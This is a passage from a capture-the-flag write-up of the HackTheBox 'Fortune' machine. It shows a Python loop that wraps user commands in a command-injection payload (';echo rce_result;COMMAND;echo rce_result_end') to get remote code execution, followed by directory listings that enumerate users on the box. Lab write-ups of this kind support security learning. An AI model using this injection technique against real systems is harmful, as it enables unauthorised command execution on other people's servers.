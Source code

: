 ```

while True:
	rce = input(GREEN + "[?] command : ")
	payload = ";echo rce_result;{};echo rce_result_end".format(rce)
	response = exploit(payload)
	result = filter(response)
	print(YELLOW + "[*] Result :")
	print(result)
```
<br> This script takes the command to execute then sends the payload which is `;echo rce_result;COMMAND;echo rce_result_end` then it searches through the response and prints the string between `rce_result` and `rce_result_end` which is the output of our command.
![](/images/hackthebox/fortune/6.png)
<br> There are 3 users on the box : `bob`, `charlie` and `nfsuser` :
```
[?] command : ls -la /home
[*] Result :

total 20
drwxr-xr-x   5 root     wheel    512 Nov  2  2018 .
drwxr-xr-x  13 root     wheel    512 Aug  2 05:47 ..
drwxr-xr-x   5 bob      bob      512 Nov  3  2018 bob
drwxr-x---   3 charlie  charlie  512 Aug  2 06:21 charlie
drwxr-xr-x   2 nfsuser  nfsuser  512 Nov  2  2018 nfsuser
```
<br> In `bob`'s home directory there was a directory called `ca` :
```
[?] command : ls -la /home/bob
[*] Result :

total 48
drwxr-xr-x  5 bob   bob    512 Nov  3  2018 .
drwxr-xr-x  5 root  wheel  512 Nov  2  2018 ..
-rw-r--r--  1 bob   bob     87 Oct 11  2018 .Xdefaults
-rw-r--r--  1 bob   bob    771 Oct 11  2018 .cshrc
-rw-r--r--  1 bob   bob    101 Oct 11  2018 .cvsrc
-rw-r--r--  1 bob   bob    359 Oct 11  2018 .login
-rw-r--r--  1 bob   bob    175 Oct 11  2018 .mailrc
-rw-r--r--  1 bob   bob    215 Oct 11  2018 .profile
```
